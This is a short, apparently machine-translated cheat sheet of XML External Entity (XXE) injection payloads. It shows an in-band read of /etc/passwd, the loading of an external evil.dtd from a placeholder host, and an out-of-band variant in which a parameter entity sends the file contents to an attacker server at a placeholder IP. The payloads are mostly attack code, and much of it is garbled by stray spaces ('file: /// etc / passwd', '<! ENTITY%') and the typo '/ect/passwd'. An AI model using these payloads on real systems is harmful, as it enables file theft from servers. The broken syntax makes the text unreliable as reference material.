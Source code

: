 Combining external entity declaration (entity name SYSTEM "uri / url") and parameter entity (% entity name SYSTEM "uri-external dtd") have two ways to perform injection attacks    

if ECHO situation:    

A.    
```
<! DOCTYPE foo [<! ELEMENT foo ANY> 
<! ENTITY% xxe SYSTEM "file: /// etc / passwd"> ]>
 <foo> & xxe; </ foo>
```   

B.   
```
<! DOCTYPE foo [<! ELEMENT foo ANY> 
<! ENTITY% xxe SYSTEM "http: //xxx/evil.dtd">
% xxe;]>
<foo> & evil; </ foo>
```    
contents of external evil.dtd     
`<!ENTITY %evil SYSTEM "file:///ect/passwd">`   

C. if NO ECHO situation:   
(You can use an external data channel to extract the data, first use file: // or php: // filter to get the content of the target file, and then send the content as an http request to the server that receives the data (attack server))     
```
<! DOCTYPE updateProfile [ 
<! ENTITY% file SYSTEM "file: /// etc / passwd"> 
<! ENTITY% dtd SYSTEM "http: //xxx/evil.dtd">
% dtd;
% send;
]>
```    
The content of evil.dtd, the internal `%` number should be physically encoded `&#x25;`   
```
<!ENTITY % all
"<!ENTITY &#x25 send SYSTEM 'http://xxx.xxx.xxx.xxx/?data=%file;'>"
>
%all;
```

